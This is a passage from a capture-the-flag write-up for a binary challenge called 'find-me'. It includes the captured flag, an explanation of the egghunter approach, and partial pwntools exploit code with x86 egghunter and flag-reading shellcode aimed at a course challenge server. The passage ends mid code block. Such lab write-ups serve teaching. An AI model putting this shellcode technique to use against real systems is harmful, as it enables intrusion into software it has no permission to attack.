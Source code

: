 ```
p.interactive()
```

find-me
===========================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyMy1maW5kLW1lIiwiaXAiOiIyMjAuMjQwLjgyLjk2Iiwic2Vzc2lvbiI6IjQyMzgyMTU3LWQ4NWItNGY4Yy05MjRhLTZlNTFlYzk4NTM0YyJ9.VnLOfG2nW77YrljjeHoVVlvrgI7nzK4NI05tC0xOF2c}

General overview of problems faced
-------------------------------------
When running this binary, it states that I am given two buffers on the stack, one large and one small. It also says it will execute whatever I place in the first buffer, yet not the second. Finally it says all syscalls are disabled except read and write, and the flag is in a file with fd 1000.

Since this is similar to the simple challenge, I am going to want to run the same shellcode I created there to read and write the contents of the flag file.

However, this shellcode is too large to fit on the small buffer which gets executed. Since we have a small buffer as well as a larger buffer we can write into somewhere else on the stack, this follows the pattern of an egghunter.

In the small buffer, we place egghunter shellcode which iterates through memory looking for an egg. In the large buffer, we place this egg value followed by our larger shellcode that gets the flag. Hence, when my egghunter shellcode finds the egg value in memory, it will then execute my shellcode placed directly after it.

Script/Command used
------------------
```
p = remote("plsdonthaq.me", 3003)

# Here we create the egg value 0xfcfcfcfc, as this is unlikely to appear naturally
# in memory.
egg = p32(0xfcfcfcfc)

# Next, we create the shellcode for the egghunter. First it moves our egg value
# into the edx register. It then enters a loop where it increments the eax register
# by 1, compares the value at this address with our egg, and if not equal jumps back
# to the top of the loop. If it was equal, then we want to jump to start executing
# our shellcode placed after the egg.
egghunter = asm("""
mov edx, 0xfcfcfcfc
loop:
  inc eax
  cmp DWORD PTR [eax], edx
  jne loop
  jmp eax
""")

# This is the shellcode to read and write the contents of the flag file. Since it is
# setup the same as the simple challenge, we have simply used the same assembly here.
shellcode = asm("""
sub esp, 500
mov ebx, 1000
lea ecx, [esp]
mov edx, 500
mov eax, 0x03
int 0x80

mov ebx, 1
lea ecx, [esp]
mov edx, eax
mov eax, 0x04
int 0x80
```